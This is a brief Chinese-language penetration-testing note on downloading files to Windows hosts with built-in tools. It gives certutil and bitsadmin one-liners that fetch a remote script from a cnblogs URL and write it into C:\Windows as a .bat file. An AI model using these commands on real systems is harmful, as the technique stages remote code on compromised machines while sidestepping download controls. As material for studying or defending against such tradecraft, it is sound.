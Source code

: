 
## 下载文件

- 推荐使用`bat`脚本执行`JavaScript`脚本下载文件

* [从github下载文件的多种方法](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95)


- `certutil`

> 用户备份证书服务管理，每次下载都会有缓存
>
> 缓存目录：`%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

```batch
certutil -urlcache -split -f https://blog-static.cnblogs.com/files/gayhub/bcn.js C:\Windows\bcn.bat
```

- `bitsadmin`

> `bitsadmin.exe` `bitsadmin`是`windows`后台智能传输服务的一个工具，`windows`的自动更新，补丁之类的下载就是用这个工具来实现的。

```batch
:: 无进度条等信息
bitsadmin /rawreturn /transfer 任务名 https://blog-static.cnblogs.com/files/gayhub/bcn.js C:\Windows\bcn.bat
:: 有进度条等信息
bitsadmin /transfer 任务名 /download /priority normal https://blog-static.cnblogs.com/files/gayhub/bcn.js C:\Windows\bcn.bat
```

